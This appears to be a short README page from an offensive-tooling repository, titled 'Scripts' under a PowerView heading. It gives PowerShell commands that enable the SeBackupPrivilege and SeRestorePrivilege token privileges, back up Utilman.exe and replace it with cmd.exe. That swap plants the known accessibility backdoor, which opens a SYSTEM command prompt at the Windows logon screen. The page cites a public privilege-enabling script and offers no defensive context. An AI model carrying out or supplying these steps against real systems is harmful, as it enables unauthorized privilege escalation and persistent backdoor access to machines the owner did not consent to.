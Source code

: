 # Scripts

## PowerView

```
PS C:\> .\Set-TokenPrivilege.ps1 -privilege SeBackupPrivilege <pid>
```

```
PS C:\> Import-Module .\EnableSeRestorePrivilege.ps1

PS C:\> Enable-SeRestorePrivilege
```

```
PS C:\> copy C:\Windows\System32\Utilman.exe C:\Windows\System32\Utilman.bkp

PS C:\> copy C:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe
```

---
## References

### Source Repositories

- [gtworek: EnableSeRestorePrivilege](https://github.com/gtworek/PSBits/blob/master/Misc/EnableSeRestorePrivilege.ps1)